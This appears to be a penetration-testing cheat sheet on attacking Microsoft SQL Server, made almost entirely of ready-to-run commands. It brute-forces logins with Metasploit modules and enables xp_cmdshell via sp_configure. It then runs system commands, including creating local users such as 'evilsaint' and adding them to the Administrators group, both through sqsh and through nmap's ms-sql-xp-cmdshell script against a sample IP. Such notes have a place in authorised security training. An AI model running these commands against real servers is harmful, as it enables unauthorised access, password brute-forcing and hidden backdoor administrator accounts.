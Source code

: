 metasploit

{% highlight PowerShell %}
use /scanner/mssql/mssql_ping
{% endhighlight %}

Brutefoce Password

{% highlight PowerShell %}
search mssql
use /scanner/mssql/mssql_login
set BRUTEFORCE_SPEED 5
set RHOSTS file:/home/tb/rhosts.txt
show options
exploit
{% endhighlight %}

Leverage xp_cmdshell to get a shell

{% highlight PowerShell %}
sqsh -S <ip_address> -U sa -P <password>

exec sp_configure ‘show advanced options’, 1
go
reconfigure
go
exec sp_configure ‘xp_cmdshell’, 1
go
reconfigure
go
xp_cmdshell 'dir C:\'
Go
xp_cmdshell 'type c:\trophy.txt'
Go
xp_cmdshell 'net user evilsaint Passw0rd123 /add'
Go
xp_cmdshell 'net localgroup Administrators evilsaint /ADD'
Go
{% endhighlight %}

Nmap xp_cmdshell

{% highlight PowerShell %}
nmap --script=ms-sql-xp-cmdshell --script-args mssql.username='sa',mssql.password='PASSWORD_HERE',ms-sql-xp-cmdshell.cmd='net user f1guref0ur cr@cked /add' -p1433 192.168.0.66
nmap --script=ms-sql-xp-cmdshell --script-args mssql.username='sa',mssql.password='PASSWORD_HERE',ms-sql-xp-cmdshell.cmd='net localgroup administrators f1guref0ur /add' -p1433 192.168.0.66
{% endhighlight %}

Connect without a default port

{% highlight PowerShell %}
sqsh -S <host>:<port> -U sa -P ""
{% endhighlight %}

**Useful Queries**
